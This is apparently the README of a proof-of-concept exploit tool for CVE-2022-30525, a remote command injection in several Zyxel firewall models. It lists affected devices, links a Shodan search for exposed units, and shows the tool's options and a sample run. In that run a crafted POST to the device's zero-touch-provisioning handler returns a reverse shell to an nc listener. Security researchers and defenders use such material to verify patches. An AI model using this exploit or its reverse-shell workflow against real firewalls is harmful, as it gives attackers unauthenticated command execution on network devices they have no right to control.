 # Victorian Machinery

Victorian Machinery is a proof of concept exploit for CVE-2022-30525. The vulnerability is an unauthenticated and remote command injection vulnerability affecting Zyxel firewall's that support zero touch provisioning. Zyxel pushed a fix for this issue on April 28, 2022. The following models are known to be affected:

* USG FLEX 100, 100W, 200, 500, 700
* ATP 100, 200, 500, 700, 800
* USG20-VPN and USG20w-VPN

At the time of writing, there were more than [16,000](https://www.shodan.io/search?query=title%3A%22USG+FLEX+100%22%2C%22USG+FLEX+100w%22%2C%22USG+FLEX+200%22%2C%22USG+FLEX+500%22%2C%22USG+FLEX+700%22%2C%22USG+FLEX+50%22%2C%22USG+FLEX+50w%22%2C%22ATP100%22%2C%22ATP200%22%2C%22ATP500%22%2C%22ATP700%22) affected devices visible on Shodan. Exposing the management web interface *is not* the default setting, which implies there are many more affected systems not exposed to the internet. These systems also support automatic update (not enabled by default) so a good subset are already patched against this issue.

## Options

Victorian Machinery expliots the target and catches a reverse shell using a forked `nc` listener. This was tested on Ubuntu 20.04. The PoC tries to execute `/usr/bin/nc` by default. If your `nc` is somewhere else than you'll need to update the `nc-path` option. See the complete help menu below:

```sh
albinolobster@ubuntu:~/victorian_machinery$ python3 victorian_machinery.py --help

$$\    $$\ $$\             $$\                         $$\                             
$$ |   $$ |\__|            $$ |                        \__|                            
$$ |   $$ |$$\  $$$$$$$\ $$$$$$\    $$$$$$\   $$$$$$\  $$\  $$$$$$\  $$$$$$$\          
\$$\  $$  |$$ |$$  _____|\_$$  _|  $$  __$$\ $$  __$$\ $$ | \____$$\ $$  __$$\         
 \$$\$$  / $$ |$$ /        $$ |    $$ /  $$ |$$ |  \__|$$ | $$$$$$$ |$$ |  $$ |        
  \$$$  /  $$ |$$ |        $$ |$$\ $$ |  $$ |$$ |      $$ |$$  __$$ |$$ |  $$ |        
   \$  /   $$ |\$$$$$$$\   \$$$$  |\$$$$$$  |$$ |      $$ |\$$$$$$$ |$$ |  $$ |        
$$\ \_/  $$\__| \_______|   \____$$\______$$\__|      \__| \_______|\__|  \__|        
$$$\    $$$ |                    $$ |      \__|                                        
$$$$\  $$$$ | $$$$$$\   $$$$$$$\ $$$$$$$\  $$\ $$$$$$$\   $$$$$$\   $$$$$$\  $$\   $$\ 
$$\$$\$$ $$ | \____$$\ $$  _____|$$  __$$\ $$ |$$  __$$\ $$  __$$\ $$  __$$\ $$ |  $$ |
$$ \$$$  $$ | $$$$$$$ |$$ /      $$ |  $$ |$$ |$$ |  $$ |$$$$$$$$ |$$ |  \__|$$ |  $$ |
$$ |\$  /$$ |$$  __$$ |$$ |      $$ |  $$ |$$ |$$ |  $$ |$$   ____|$$ |      $$ |  $$ |
$$ | \_/ $$ |\$$$$$$$ |\$$$$$$$\ $$ |  $$ |$$ |$$ |  $$ |\$$$$$$$\ $$ |      \$$$$$$$ |
\__|     \__| \_______| \_______|\__|  \__|\__|\__|  \__| \_______|\__|       \____$$ |
                                                                             $$\   $$ |
                                  ⚙ jbaines-r7                              \$$$$$$  |
                                 CVE-2022-30525                              \______/ 
                                       🦞                                             

usage: victorian_machinery.py [-h] --rhost RHOST [--rport RPORT] --lhost LHOST [--lport LPORT] [--protocol PROTOCOL] [--nc-path NCPATH]

Zyxel Firewall Command Injection (CVE-2022-30525)

optional arguments:
  -h, --help           show this help message and exit
  --rhost RHOST        The remote address to exploit
  --rport RPORT        The remote port to exploit
  --lhost LHOST        The local address to connect back to
  --lport LPORT        The local port to connect back to
  --protocol PROTOCOL  The protocol handler to use
  --nc-path NCPATH     The path to nc

```

## Example Usage

```sh
albinolobster@ubuntu:~/victorian_machinery$ python3 victorian_machinery.py --rhost 10.0.0.14 --lhost 10.0.0.28

$$\    $$\ $$\             $$\                         $$\                             
$$ |   $$ |\__|            $$ |                        \__|                            
$$ |   $$ |$$\  $$$$$$$\ $$$$$$\    $$$$$$\   $$$$$$\  $$\  $$$$$$\  $$$$$$$\          
\$$\  $$  |$$ |$$  _____|\_$$  _|  $$  __$$\ $$  __$$\ $$ | \____$$\ $$  __$$\         
 \$$\$$  / $$ |$$ /        $$ |    $$ /  $$ |$$ |  \__|$$ | $$$$$$$ |$$ |  $$ |        
  \$$$  /  $$ |$$ |        $$ |$$\ $$ |  $$ |$$ |      $$ |$$  __$$ |$$ |  $$ |        
   \$  /   $$ |\$$$$$$$\   \$$$$  |\$$$$$$  |$$ |      $$ |\$$$$$$$ |$$ |  $$ |        
$$\ \_/  $$\__| \_______|   \____$$\______$$\__|      \__| \_______|\__|  \__|        
$$$\    $$$ |                    $$ |      \__|                                        
$$$$\  $$$$ | $$$$$$\   $$$$$$$\ $$$$$$$\  $$\ $$$$$$$\   $$$$$$\   $$$$$$\  $$\   $$\ 
$$\$$\$$ $$ | \____$$\ $$  _____|$$  __$$\ $$ |$$  __$$\ $$  __$$\ $$  __$$\ $$ |  $$ |
$$ \$$$  $$ | $$$$$$$ |$$ /      $$ |  $$ |$$ |$$ |  $$ |$$$$$$$$ |$$ |  \__|$$ |  $$ |
$$ |\$  /$$ |$$  __$$ |$$ |      $$ |  $$ |$$ |$$ |  $$ |$$   ____|$$ |      $$ |  $$ |
$$ | \_/ $$ |\$$$$$$$ |\$$$$$$$\ $$ |  $$ |$$ |$$ |  $$ |\$$$$$$$\ $$ |      \$$$$$$$ |
\__|     \__| \_______| \_______|\__|  \__|\__|\__|  \__| \_______|\__|       \____$$ |
                                                                             $$\   $$ |
                                  ⚙ jbaines-r7                              \$$$$$$  |
                                 CVE-2022-30525                              \______/ 
                                       🦞                                             

[+] Executing netcat listener
[+] Using /usr/bin/nc
Listening on 0.0.0.0 1270
[+] Sending a POST request to https://10.0.0.14:443/ztp/cgi-bin/handler
Connection received on 10.0.0.14 43957
bash: cannot set terminal process group (10800): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ id
id
uid=99(nobody) gid=10003(shadowr) groups=99,10003(shadowr)
```

## Credit

* [Red Hot Chili Peppers](https://www.youtube.com/watch?v=o-4Fo-gJnXU)
